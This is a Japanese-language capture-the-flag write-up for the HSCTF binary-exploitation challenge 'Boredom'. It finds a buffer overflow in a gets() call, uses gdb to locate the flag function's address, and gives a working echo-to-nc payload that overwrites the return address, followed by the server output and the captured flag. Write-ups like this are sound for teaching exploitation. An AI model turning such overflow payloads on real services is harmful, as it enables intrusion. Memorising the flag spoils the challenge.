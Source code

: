 # Boredom:Binary Exploitation:100pts
Keith is bored and stuck at home. Give him some things to do.  
Connect at nc pwn.hsctf.com 5002.  
Note, if you're having trouble getting it to work remotely:  
- check your offset, the offset is slightly different on the remote server  
- the addresses are still the same  

[boredom.c](boredom.c)　　　　[boredom](boredom)  

# Solution
boredom.cを読むとmain内の`gets(toDo);`でBOFできそうだ(本来ならばchecksecする)。  
flag関数を実行することができればよいのでアドレスを調べる。  
```bash
$ gdb boredom
~~~
(gdb) disas flag
Dump of assembler code for function flag:
   0x00000000004011d5 <+0>:     push   %rbp
   0x00000000004011d6 <+1>:     mov    %rsp,%rbp
   0x00000000004011d9 <+4>:     sub    $0x40,%rsp
   0x00000000004011dd <+8>:     lea    0xe60(%rip),%rsi        # 0x402044
   0x00000000004011e4 <+15>:    lea    0xe5b(%rip),%rdi        # 0x402046
   0x00000000004011eb <+22>:    callq  0x401080 <fopen@plt>
   0x00000000004011f0 <+27>:    mov    %rax,-0x8(%rbp)
   0x00000000004011f4 <+31>:    cmpq   $0x0,-0x8(%rbp)
   0x00000000004011f9 <+36>:    jne    0x40121d <flag+72>
   0x00000000004011fb <+38>:    lea    0xe4e(%rip),%rdi        # 0x402050
   0x0000000000401202 <+45>:    callq  0x401030 <puts@plt>
   0x0000000000401207 <+50>:    lea    0xe92(%rip),%rdi        # 0x4020a0
   0x000000000040120e <+57>:    callq  0x401030 <puts@plt>
   0x0000000000401213 <+62>:    mov    $0x1,%edi
   0x0000000000401218 <+67>:    callq  0x401090 <exit@plt>
~~~
```
0x00000000004011d5とわかった。  
gdbを駆使しながらセグフォ周辺を探っていく。  
結果として、以下のようにechoをncに流し込むことでflag関数に飛ばすことができる。  
```bash
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd5\x11\x40\x00\x00\x00\x00\x00" | nc pwn.hsctf.com 5002
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}

Now go away.
```

## flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}